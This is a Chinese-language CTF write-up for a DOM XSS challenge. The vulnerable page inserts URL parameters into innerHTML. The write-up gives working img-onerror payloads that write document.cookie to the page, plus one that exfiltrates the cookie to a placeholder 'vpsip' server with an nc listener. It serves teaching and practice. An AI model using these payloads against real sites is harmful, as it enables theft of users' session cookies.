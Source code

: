 ## [Week2]XssTest

- hint1：DOM XSS, GET FLAG FROM COOKIE

- hint2：结合所学JavaScript知识，如果你能执行任意JavaScript代码便可以操控浏览器做一些事情，如果你有服务器(vps)的话可以选择外带cookie，如果没有的话这里提供了截图功能，想办法把cookie输出到页面然后让bot去截图返回~~~
  alert()会导致页面一直加载bot截图不了，请尝试其他函数，eg：document.write()
  ps：多思考，多尝试

访问：http://101.43.57.52:28081/?subject=1&event=1&event2=1

返回内容：

![image-20230124010110442](./image-20230124010110442.png)

题目给出源码，查看逻辑

```javascript
function generate() {
    const currentURL = new URL(window.location.href);
    subject = currentURL.searchParams.get("subject");
    event = currentURL.searchParams.get("event");
    event2 = currentURL.searchParams.get("event2");
    document.getElementById("reportform").value = "http://localhost:3000/?subject=" + subject + "&event=" + event + "&event2=" + event2;
    if (subject.length == 0 || event.length == 0 || event2.length == 0)
        return;
    result = `　　${subject}${event}是怎么回事呢？${subject}相信大家都很熟悉，但是${subject}${event}是怎么回事呢，下面就让小编带大家一起了解吧。<br>　　${subject}${event}，其实就是${event2}，大家可能会很惊讶${subject}怎么会${event}呢？但事实就是这样，小编也感到非常惊讶。<br>　　这就是关于${subject}${event}的事情了，大家有什么想法呢，欢迎在评论区告诉小编一起讨论哦！`;
    document.getElementById("result").innerHTML = result;
    auto_grow(document.getElementById("result"));
}
```

前端处理url参数来生成页面内容，按xss分类为domxss

在domxss中如果使用script标签js不会被执行，因为后面加的js不会被浏览器加载

通过学习html，xss等内容。往html中插入图片，图片加载失败触发js执行可以来dom xss（还有其他方式不一一列举）

https://websec.readthedocs.io/zh/latest/vuln/xss/payload.html

尝试里面的payload，我用的是：`<img src=1 onerror=alert(1)>`

![image-20230124010136771](./image-20230124010136771.png)

这里来测试你的payload

![image-20230124010207592](./image-20230124010207592.png)

这里alert会使得浏览器没有加载完，截图会超时

### 两种解决方法

- 1（没有服务器来外带cookie情况下）通过往页面写入cookie（flag在cookie中）然后bot截图返回，已知`<img src=1 onerror=js代码>`中js代码为我们可以插入执行js的地方，现在我们只需要找个js函数，把cookie写入页面即可，通过翻文档/百度，找到`document.write()`函数，当然其他能够进行页面操作的都可以，控制台尝试![image-20230124010311026](./image-20230124010311026.png)可以往页面写入东西了，payload: `<img src=1 onerror=document.write(1)>`提交报告：`http://localhost:3000/?subject=<img src=1 onerror=document.write(1)>&event=null&event2=null`返回![image-20230124010345020](./image-20230124010345020.png)往页面写入cookie，payload: `<img src=1 onerror=document.write(document.cookie)>`提交报告：`http://localhost:3000/?subject=<img src=1 onerror=document.write(document.cookie)>&event=null&event2=null`返回![image-20230124010417040](./image-20230124010417040.png)
- 2 (有服务器来外带cookie情况下) 服务端nc监听端口![image-20230124010029369](./image-20230124010029369.png)，然后利用js来发送网络请求，payload: `<img src=1 onerror=window.open("http://vpsip:11012/?"+document.cookie)>`提交报告：http://localhost:3000/?subject=<img src=1 onerror=window.open(`http://vpsip:11012/?${document.cookie}`)>&event=1&event2=1返回![image-20230124014249794](./image-20230124014249794.png)
